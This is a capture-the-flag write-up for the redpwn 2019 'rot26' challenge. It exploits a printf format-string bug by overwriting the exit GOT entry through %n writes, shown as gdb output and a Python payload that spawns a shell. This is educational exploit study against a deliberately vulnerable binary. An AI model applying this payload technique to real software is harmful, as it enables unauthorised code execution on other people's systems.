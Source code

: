 In this pwn challenge with the following description:
```
nc chall2.2019.redpwn.net 4003
```
we were given a ELF and it's source code (look at rot26 and rot26.c):

Reading the source code it seems that the software does a rot26 encryption of a string passed via stdin, let's try it: 

```bash
$ ./rot26
asd
asd
```

Of course rot26 is a shift of 26 character, so nothing will change. Then there is a function that executes a system("/bin/sh") so this piece of code will drop us a shell:

```c
void winners_room(void)
{
        puts("Please, take a shell!");
        system("/bin/sh");
        exit(EXIT_SUCCESS);
}
```

This function, however, is never called so we must use some bugs to overwrite eip register and redirect code execution. Stack overflow though is not feasible because the read is made in a safe way:

```c
char buf[4096];
...
fgets(buf, sizeof(buf), stdin);
```

In the end nothing seems to be wrong, except one particular:

```c
char sanitized[4096];
...
rot26(sanitized, buf, sizeof(sanitized));
printf(sanitized);
exit(EXIT_FAILURE);
```

We are using printf to print a buffer without the use of a format string, this allow us to perform a format string exploit. Let's verify this bug:

```bash
$ ./rot26
%x %x %x %x %x
ffe39f9c 1000 8048791 0 0
```

We have found the right path! Now we need only to find a way to redirect the code with the printf. It's important to notice that the only function called after the print statement is exit, we can overwrite the plt entry so whenever the program calls exit(), it calls our shell function!

Firstly we need the address to rewrite:

```
$ gdb rot26
gdb-peda$ x exit
0x80484a0 <exit@plt>:	0xa02025ff
```

Then we need the address of the shell function:

```
gdb-peda$ x winners_room 
0x8048737 <winners_room>:	0x53e58955
```

Then we find the right offset of the first word of our input:

```
./rot26 
AAAA %x %x %x %x %x %x %x %x %x %x
AAAA ffabde3c 1000 8048791 0 0 0 41414141 20782520 25207825 78252078
```

So the offset is 7, now we decide to write the address in two steps, first we will write the lower part [0x8737], then the higher part [0x804], after some calculation the exploit string is built by:

```python
shell = 0x8048737
exitplt = 0x804a020

exploit = ''
exploit += p32(exitplt) #set first address to write to
exploit += p32(exitplt+2) #set second address to write to
exploit += '%34607x' #print enough character to reach shell[4:]
exploit += '%7$n' #write number of character printed in first address
exploit += '%32973x' #print enough character to reach shell[0:4]
exploit += '%8$n' #write number of character printed in first address
```

Executing it on the server will lead in a bunch of crap printed and at the end the shell:
```bash
./exploit
...
                                                    1000
Please, take a shell!
$ ls
Makefile
bin
dev
flag.txt
lib
lib32
lib64
rot26
rot26.c
$ cat flag.txt
flag{w4it_d03s_r0t26_4ctu4lly_ch4ng3_4nyth1ng?}
```